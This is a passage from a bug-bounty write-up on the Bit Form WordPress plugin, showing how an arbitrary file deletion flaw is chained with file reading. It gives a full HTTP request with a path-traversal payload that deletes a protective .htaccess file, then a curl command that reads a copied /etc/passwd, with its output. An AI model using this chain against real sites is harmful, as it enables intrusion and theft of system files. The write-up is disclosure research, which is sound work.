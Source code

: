 Let's take a look at that file:

```
<IfDefine php_flag>
    php_flag engine off
</IfDefine>
Options -Indexes
Order allow,deny
Deny from all
Require all denied
```

In here, we can see that it uses [Apache's access control](https://httpd.apache.org/docs/2.4/howto/access.html) to deny all requests to everything in directory `/var/www/html/wp-content/uploads/bitforms/uploads/`.

Hmm... Can we bypass that?

#### Arbitrary File Read Bypass via Arbitrary File Deletion

Ah ha! We can **chain with the arbitrary file deletion vulnerability** to delete that `.htaccess` file, and then we can read the copied file!

Let's delete that file!!

```http
POST /wp-admin/admin-ajax.php?action=bitforms_delete_aform&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 106
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"id":"../../../../../../../../../../../../../var/www/html/wp-content/uploads/bitforms/uploads/.htaccess"}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822204337.png)

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-read-deletion)-[2024.08.22|20:43:00(HKT)]
└> curl http://localhost/wp-content/uploads/bitforms/uploads/1/1
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

Let's go!!!

### The Patch
